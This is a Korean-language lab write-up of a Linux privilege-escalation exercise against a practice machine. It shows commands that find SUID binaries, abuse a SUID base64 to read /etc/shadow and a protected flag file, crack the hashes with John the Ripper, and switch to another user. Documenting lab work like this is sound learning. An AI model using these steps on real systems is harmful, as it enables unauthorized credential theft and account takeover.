





# Linux Privilege Escalation: SUID
> SUID가 설정된 바이너리 중 `base64` 명령어를 활용해 `/etc/shadow` 파일을 읽고 사용자 계정 정보를 탈취한 후, 계정 크랙과 전환을 통해 플래그를 획득하는 과정을 수행했습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.235.109
- **공격 머신**: Kali Linux
- **초기 사용자 계정**: `karen`
- **권한 상승 방법**: `base64` SUID 바이너리 악용
- **실습 일자**: 2025-04-19

---

## 2. 실습 과정

### 2.1 SSH 접속

```bash
ssh karen@10.10.235.109
```
- 타겟 머신에 karen 계정으로 SSH 접속하여 권한 상승을 위한 탐색을 시작하였다.



---

### 2.2 SUID 바이너리 검색
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
- 시스템 전체에서 SUID 권한이 부여된 파일 목록을 검색하였다.
- `/usr/bin/base64` 바이너리에 SUID가 설정되어 있는 것을 발견하였다.



---
### 2.3 GTFOBins 참고

- https://gtfobins.github.io/ 사이트를 참고하여 base64 명령어가 SUID로 설정되어 있을 경우 파일을 인코딩 방식으로 우회 접근이 가능하다는 점을 확인하였다.

---
### 2.4 base64 SUID를 이용한 /etc/shadow 읽기

- 일반적으로 접근할 수 없는 `/etc/shadow` 파일을 base64 명령어로 인코딩 후 디코딩하여 내용을 출력하였다.

```bash
LFILE=/etc/shadow
/usr/bin/base64 "$LFILE" | base64 --decode
```
- 사용자 계정들의 해시된 패스워드를 확보하였다.



---

### 2.5 hash.txt로 저장 및 john으로 크랙
- 탈취한 해시를 `hash.txt` 파일로 저장하고, john the ripper를 사용하여 크랙하였다.

```bash
john --show hash.txt
```
- `user2`의 비밀번호 `Password1`을 성공적으로 크랙하였다.



---

### 2.6 su 명령어로 user2 계정 전환
```bash
su user2
# Password1 입력
```
- 크랙한 비밀번호를 이용해 `user2` 계정으로 전환하였다.

---

### 2.7 플래그 파일 찾기 및 base64로 읽기

```bash
find / -name flag3.txt 2>/dev/null
cat /home/ubuntu/flag3.txt  # 권한 없음

LFILE=/home/ubuntu/flag3.txt
/usr/bin/base64 "$LFILE" | base64 --decode
```
- 플래그 파일의 위치를 찾았으나 직접 `cat` 명령으로 읽을 수는 없었다.
- 다시 SUID base64를 활용하여 파일 내용을 인코딩 후 디코딩함으로써 우회적으로 내용을 읽어내어 플래그 획득에 성공하였다.



---

## 느낀 점
실습을 통해 **SUID 바이너리가 가지는 보안적 위험성**과, **평범해 보이는 명령어도 공격에 활용될 수 있음을 명확히 체감**할 수 있었다. 특히 `nano`, `less`와 같은 텍스트 편집 도구에 SUID가 설정되어 있다면, **`/etc/shadow` 파일을 `unshadow` 명령어로 복원하고 사전 기반 크랙을 통해 루트 계정까지 탈취할 수 있는** 매우 위험한 공격 시나리오도 고려할 수 있었을 것이다.

